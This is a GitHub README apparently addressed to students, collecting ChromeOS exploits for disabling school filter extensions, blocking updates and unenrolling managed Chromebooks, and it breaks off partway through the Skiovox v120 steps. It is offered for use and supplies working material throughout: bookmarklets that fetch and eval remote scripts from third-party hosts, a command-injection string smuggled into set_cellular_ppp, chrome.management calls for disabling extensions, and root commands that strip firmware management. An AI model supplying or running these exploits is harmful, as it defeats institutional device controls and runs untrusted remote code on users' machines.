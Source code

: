 # Exploits And Hacks
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/discussions">here</a>

Note: Students to see the list of more exploits click on JPCMG [LTBEEF with Service workers and scroll down.
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Brandon and I forked this repo from <a href="https://github.com/3kh0/ext-remover">3kh0</a> in order to give updated and old exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of whack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>LTMEAT</b> Freeze extensions</summary>

  **DO NOT UPDATE YOUR CHROMEBOOK TO CHROME VERSION 115 OR ABOVE**

**Patched** **On** **Chrome** **Versions** **115** **And** **above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are intrested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also just do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhere/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. While on the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs and the extension will basically be dead. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

Turns out that I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit an a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is extremely misleading. Nobody blocked it--you just need to find the right extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should show up to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension but now I can't load websites!**

If you actually just read the writeup, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners means you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you weren't spamming bookmark C fast enough. The most reliable fix for this is to just restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way, or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension, why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. And again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

*Need more help? [Ask in the discussions](https://github.com/3kh0/ext-remover/discussions)*

</details>

<details>
<summary><b>Baby LTMEAT</b> Freeze extensions</summary>

**Patched On Chrome Versions 115 And Above**
  
BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGES.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any sort of switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>LTMEAT Flood</b> Freeze extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel Then Here's A New Method For LTMEAT**
  
  
**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page lots of times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything and you're good to go. If it didn't work, try adjusting the number of open tabs. This is the LTMEAT Flood Method, and also unofficially called Alternate Method # 2. Enjoy a much longer life of LTMEAT!

**Not working?** Ensure you open a large set, but not too large, of extension tabs (_/generated_background_page.html or /manifest.json) for a permanent freeze.

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this workaround

</details>

<details>
<summary><b>Baby LTMEAT Flood</b> Freeze extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook i used 800 extension page tabs as i feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tab in a new window, maybe waiting slightly longer this time, to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen, and a wait/exit page button" you did it right" But don't click either of the buttons. (if you want to do it fast you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the 1 extension page tab remaining.

</details>

<details>
<summary><b>LTVegan</b> Freeze extensions</summary>

1. find the biggest file for your blocker extension

2. open chrome://extensions/?id=IDHERE

3. CTRL+A to copy all of the code, then drag the copied text to the tabs bar. this may freeze your  chromebook a few times.

4. start clicking the chrome extension tab (chrome://extensions/?id=IDHERE ) a few times, then wait ( chromebook is currently frozen).

5. when your chromebook isn’t as frozen, right click the main.js tab and duplicate it.

6. click the “Allow access to file URLs” (multiple times for good measure) and the first tab should close itself. if BOTH tabs closed themselves, you did something wrong, or just try again.

7. you should be able to normally use your  Chromebook now. afaik you might be able to close the duplicated tab but I didn’t close it and it lasted for a long time.

</details>

<details>
<summary><b>Anesthesia</b> Freeze extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json or you can use <a href="https://robwu.nl/crxviewer/">Rob Wu's crxviewer</a> to find your extensions largest file.

2. Go to that page. and hit `Ctrl`+`P`. A print window shoudl show up, with a number of pages in the top right.

3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you can get that number, the longer the effect will last.

4 Hit reload. The page should start hanging.

5. Go to your extension's settings page. This is in `chrome://extensions`.

6. Duplicate your "printing" tab, and go back to your extension's settings page.

7. Flip any switch you can find there. Usually there'll be one titled "`Allow Access to File:// [URL]s`".

8. Presto! Go have fun on the (probably) unblocked web.

FAQ:
Where do I find my extension's manifest.json?
First find your extension's ID. This is a 32-character code that can be found in your extension's settings page, normally near or at the top. Then go to chrome-extension://your-32-char-id-goes-here/manifest.json

Credit to <a href="https://buymeacoffee.com/bypassi">Bypassi</a> for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hanged with printing.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**
  
HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: `javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()`

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this exploit

</details>

<details>
<summary><b>Dextensify</b> Freeze extensions</summary>

**Dextensify is an exploit which lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/Dextensify.html">Dextensify.html</a>

Credit to <a href="https://ading.dev/">ading2210</a> for finding/Making this exploit

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this wont work if theres not a plugin in there.
3. Hit the start button then the `inspect` button, run basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit

</details>

<details>
<summary><b>Corkey</b> Corrupt extensions</summary>

**Corkey does indeed include power washing the Chromebook, which wipes local data including everything under "My files," so I suggest you select everything you want to drag and back up to Google Drive if that's available for your account.**

**Chromebooks Only**

1. `Esc`+`Refresh`+`Power` and re-enroll (Enter recovery page) or you can just powerwash

2. log into your chromebook and immediately turn off wifi and do `refresh`+`power` to (instant restart)

3. Log back into your chromebook with the wifi off. There should be something on the side of the connect wifi page that says log in offline or sign in as a existing user.

4. Go to `chrome://extensions`, turn on wifi, and wait for your schools blocking extension to appear.

5. As soon as it appears turn off wifi and instant restart as fast as you can.

6. Log back in and go back to extensions and wait. If it says your blocking extension could be corrupted or doesnt appear at all then it worked (wait atleast a minute with a close watch incase it comes back)

7. If it didnt work repeat from step 1.

8. If it did work you could go onto anything

</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 

1. Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)

2. go to <a href="https://chrome.google.com/webstorex">chrome.google.com/webstorex</a> and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)

3. press download, and it will work.

**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>

<details>
<summary><b>Point-Blank</b> Scripts on extension pages</summary>

This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)

1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> <a href="https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js">if blocked</a> on your school chromebook.

2. Make a bookmark with the code there.

3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload (you have to actually have securly ofc)
 
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>.
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by 3kh0, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
<a href="https://dsc.gg/blue-hat-crew">https://dsc.gg/blue-hat-crew</a>

This works only for iBoss, and Blocksi, If you don't have one of these, use Blank3r or Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesnt work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>A Bypass For IBoss</b> Unblock websites that are blocked by IBoss</summary>

1. Firstly go over to your unblocked website you want to access. 

2. After visiting the website it should be blocked.

3. You want to turn off your wifi, then spamclick the blocked link  (not the url)

4. Then after spamclicking, turn on your wifi.

5. It should redirect you to "your connections been dissrupted" press reload.

6. Then you should be at the blocked website completely unblocked!!

(NOTE: THIS ONLY WORKS ON SOME WEBSITES)

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import onc` button.
11. Import the newly downloaded file.

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>CAUB Via Flags</b> Prevent Updates</summary>

This alt exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a chrome flag, you can convince your chromebook not to automatic update.

### Requirements
- Access to `chrome://flags`

<i>Getting started</i>

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead.

2. Enable it and restart your device.

3. Open the Settings app.

4. Go to your Network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you have the flag enabled)
- And you must be able to enable flags if it ain't blocked otherwise this exploit won't work

</details>

<details>
<summary><b>LTBEEF</b> Disable extensions</summary>

LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore. The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
**Installation**  
There are several vesions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    1. To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```
    2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    3. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    1. First, go to Settings > Network > Wifi > Network.
    2. Click on `Custom Name Servers`
    
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    
    3. Set every box there to the following ip:
    ```
    158.101.114.159
    ```
    (Hosted by The Greatest Giant#0110)  
    4. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    5. Flip the switches on the extentions you want to disable.
    6. Profit
    
</details>  

<details>
<summary><b>LTBEEF inspect</b> Using inspect to disable extensions</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on `108.0.5359.75` (Official Build) (64-bit) on the stable channel. This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

1. Open this on your chromebook: 
```
chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json
``` 
Shortened link: https://tinyurl.com/i-ltbeef
2. Open inspect and navigate to the console tab.
3. Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Point Blank is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

You can either use the prompt or the gui the prompt is below

1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the gui is in launcher.js


2. Navigate to `chrome://extensions`.

3. Click on a extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt or input box seperated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>SH1mmer</b> Unenrollment</summary>  
sh1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

<a href="https://github.com/CoolElectronics/sh1mmer">Official Repository</a>  

<a href="https://sh1mmer.me/">Official Website (INSTRUCTIONS)</a>

<a href="https://dl.osu.bio/">Raw Shims Download</a>

</details>

<details>
<summary><b>SH1mmer V111 → V113</b> Unenrollment</summary>
How to use SH1MMER on v111 → v113
(if you're willing to take the back cover off your Chromebook)

you'll only need to do this once, and it will let you use SH1MMER even after it's been completely patched



        1. Unplug everything, open the back panel, disconnect the battery to disable WP, plug in the charger
        2. boot into SH1MMER and use "Un-Enroll / Deprovision" (yes I know it will show an error, but that doesn't
        matter)
        (you will also need to run "Disable block_devmode" if you're using the old legacy version)
        3. go to the bash shell and run this command:
        /usr/share/vboot/bin/set_gbb_flags.sh 0x8090
        do not use "Reset GBB Flags" after this

        4. exit SH1MMER, unplug everything, reconnect the battery, reconnect the charger
        5. boot up, press CTRL + D to enter developer mode
        6. once it completes, use CTRL + ALT + SHIFT + R to powerwash
        7. after powerwash, immediately go into VT2 by pressing CTRL + ALT + F2 (→), login as "root" and run these commands:
        tpm_manager_client take_ownership
        cryptohome --action=remove_firmware_management_parameters
        if it fails, try downgrading to v110 if possible. if you can't, use E-Halycon instead.
        8. press CTRL + ALT + F1 (←), use CTRL + ALT + SHIFT + R to powerwash again
        9. profit

        NOTE: if you're on dedede, your WP method is probably different. look your model up online to find the WP
        method.

</details>

<details>
<summary><b>CryptoSmite</b> Unenrollment</summary>

**CryptoSmite** is an exploit capable of completely unenrolling enterprise-managed Chromebooks. It was found by FWSmasher and released on **March 9th, 2024**.

**This exploit has been patched since Chrome OS 120.**

### Finding Kernver
If you're on v120 or higher, you need to downgrade in order to use CryptoSmite. To do this, you first need to check your `kernver=` in Recovery Mode.

1. Boot into Recovery Mode
   - Hold ESC + Refresh + Power for 2 or 3 seconds.
   - You should be on an "Insert Recovery Media" or "Let's step you through the recovery process" screen.
2. Press TAB and look at the last digit of the `kernver=` line

- `kernver=` ends with a 2! <br />
Congratulations, you can downgrade to v119 or lower! Follow the instructions at [Downgrading *Change versions*](#downgrading-change-versions) on how to downgrade.

- `kernver=` ends with a 3! <br />
Sorry, you can't downgrade to v119 or lower. Wait for a new unenrollment exploit or do a <a href="https://blog.darkn.bio/blog/3-the-tsunami">**dangerous** hardware modification</a>.

### Using CryptoSmite
1. Download a SH1MMER Prebuilt image here: <a href="dl.darkn.bio">https://dl.darkn.bio/SH1mmer/Prebuilt/</a>
2. Disable OS verification *(blocked or not, doesn't matter)*, and boot into the shim.
3. Navigate to Payloads and navigate to CryptoSmite using the arrow keys, then press `Enter`.
4. Type in `Y` then press enter, and it'll automatically reboot upon completion.
5. Proceed through the setup partially till you get to the Add Account Screen.
   - If you see an update prompt, reboot then press `CTRL + ALT + E` on the Wi-Fi screen.
     - This *should* allow skipping the update, or make it not appear at all.
6. Powerwash the Chromebook at the "Add Account" screen. Afterwards, it'll be fully unenrolled.

### Further Reading
- <a href="https://github.com/FWSmasher/CryptoSmite">Repository</a>  
- <a href="https://blog.coolelectronics.me/breaking-cros-2/">Writeup</a>
- <a href="https://exploitingchromium.blogspot.com/">Official Blogspot</a>

</details>

<details>
<summary><b>E-Halcyon</b> Unenrollment Or Downgrade</summary>

First of all, you'll need a linux PC or VM. WSL is not guaranteed to work

Now, you'll need to boot into SH1MMER, and press the Un-Enroll option. It won't truly unenroll you if you've received the 112 update patching unenrollment and downgrading, but it is still a necessary step for the rest of this. If you've never used SH1MMER before or don't have an image lying around, make sure to follow all the instructions on sh1mmer.me for unenrollment before proceeding with the rest of the tutorial here

Next, you need a version 107 recovery image corresponding to your board, which you can pick up from chrome100.dev. Once you've downloaded the right image for your board and have confirmed it's for version 107, unzip it and save it to a safe place. Now open up a terminal and type in the following commands (make sure to replace /path/to/recovery/image.bin with the actual path)

```
git clone https://github.com/MercuryWorkshop/RecoMod
cd RecoMod
chmod +x recomod.sh
sudo ./recomod.sh -i /path/to/recovery/image.bin --halcyon --rw_legacy
```

The script will modify the image in place, and it can now be flashed with a standard recovery tool onto a USB of your choice.

Enable developer mode and get to the dev mode block screen similarly to how you would with SH1MMER, then plug in the USB. The recovery screen will show up, and at this point you need to start spamming the E key on your keyboard. It will begin a 5 minute wait sequence, and near the end of the 5 minutes start spamming E again. You will only have to wait 5 minutes once, subsequent boots will have the 5 minute wait omitted

The boot splash will show, and you will enter a special menu. Use arrow keys to navigate the cursor down to "activate halcyon environment" and press enter. Then navigate down to "Install halcyon semi-tethered" and wait for it to finish. Once it's finished, go back to "activate halcyon environment" and press "Boot halcyon semi-tethered". and you will be booted into a downgraded and unenrolled ChromeOS environment.

FAQ:
How does this work?
See the writeup for more information

Can the admins see that I'm doing this?
No.

Why don't my history/cookies/etc save after a reboot?
Unfixable restriction of cryptohome. See the writeup for more information

Why is my Chromebook "Missing or damaged?"
After installing E-Halcyon, you won't be able to boot Chrome OS normally. You'll have to keep the usb around to jumpstart the booting process

Where do I report bugs?
The RecoMod GitHub

Why does it say "E mode not activated" when I try to boot halcyon?
You spammed the E key when starting at the wrong time, or not at all

Credits:
CoolElectronics - RecoMod, working switch_root, and everything else
OlyB - Insight and contributions to the RecoMod script
vk6 - Created this website

</details>

<details>
<summary><b>Old Weird Unenrollment</b> Unenrollment</summary>

if you have a chromebook that's on a version below 101  
(check `chrome://version` to see)
press ctrl+alt+t and type this in            


`set_cellular_ppp \';dbus-send${IFS}--system${IFS}--print-reply${IFS}--dest=org.chromium.SessionManager${IFS}/org/chromium/SessionManager${IFS}org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd;exit;\'`

                                                         
           then powerwash and it will unenroll           
                       cool right                        

    to re-enroll, open a bash shell and type these in one by one
```
sudo -i
```

```
vpd -i RW_VPD -s check_enrollment=1
```

```
echo "fast safe" > /mnt/stateful_partition/factory_install_reset
reboot
```

</details>

<details>
<summary><b>TerraOS</b> Linux from RMA shim</summary>

1. Clone the <a href="https://github.com/r58Playz/terraos">TerraOS repository</a>.

Run `git clone https://github.com/r58Playz/terraos.git` in a terminal.

2. Create a build directory in the cloned directory.

3. Run `bash ../scripts/build_stage1.sh <defconfig>` in the terminal.
- Use terraos as the defconfig if building for x86_64 Chromebooks.
- Use `terraos_jacuzzi` as the defconfig if building for `jacuzzi` board Chromebooks.
- Support for `jacuzzi` boards is experimental and may not work.

4. Run bash ../scripts/build_aur_packages.sh in the terminal.

5. Run
`bash ../scripts/build_all.sh <shim.bin> <board_recovery.bin>
<reven_recovery.bin>`
in the terminal, replacing `<shim.bin>` with the path to a shim for your board, `<board_recovery.bin>` with the path to a recovery image for your board, and `<reven_recovery.bin>` with the path to a Chrome OS Flex recovery of the same version. This places a built bootloader image, SquashFS and tarballs of the arch RootFS, a bootloader image with the arch Rootfs, a bootloader image with TerraOS Chrome OS, and a bootloader image with both the arch RootFS and TerraOS Chrome OS in the build directory.

The default arch RootFS user and password are `terraos`.

</details>

<details>
<summary><b>Shimboot</b> Linux from RMA shim</summary>

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.
  
**For more detailed information, please see the project's <a href="https://github.com/ading2210/shimboot">README</a>**

Further reading:
- <a href="https://shimboot.ading.dev/">https://shimboot.ading.dev/</a>
- <a href="https://github.com/ading2210/shimboot">https://github.com/ading2210/shimboot</a>

Credit to <a href="https://ading.dev/">vk6</a> for this exploit

</details>

<details>
<summary><b>Skiovox</b> Unrestricted browsing</summary>

**Patched on chrome versons 120+**

### What is it?

An exploit that allows for browsing within a completely unblocked Chrome
browser. It works on ChromeOS 118 and a wide range of previous versions.
- Skiovox utilizes a bug in kiosk apps
- Very similar to a bug from 3 years ago
Within the unblocked browser, you can
- Install extensions
- Bypass pretty much all blocks
- Do whatever the honk you want

### How to use it

Bypassi made a wonderful slideshow for you goof balls to follow, view using any of the links below!

- <a href="https://www.skiovox.com/">https://www.skiovox.com/</a>
- <a href="https://skiovox.netlify.app">https://skiovox.netlify.app</a>
- <a href="https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview">https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview</a>
- <a href="https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx">https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx</a>

</details>

<details>
<summary><b>Skiovox for v120</b> Unrestricted browsing</summary>

**Skiovox Method "120"**

"If you see that you don't have a sign in as existing user button, click Ctrl+Alt+Shift+R then click cancel" then continue.

1. Sign out of your chromebook.

2. Turn off your wifi.

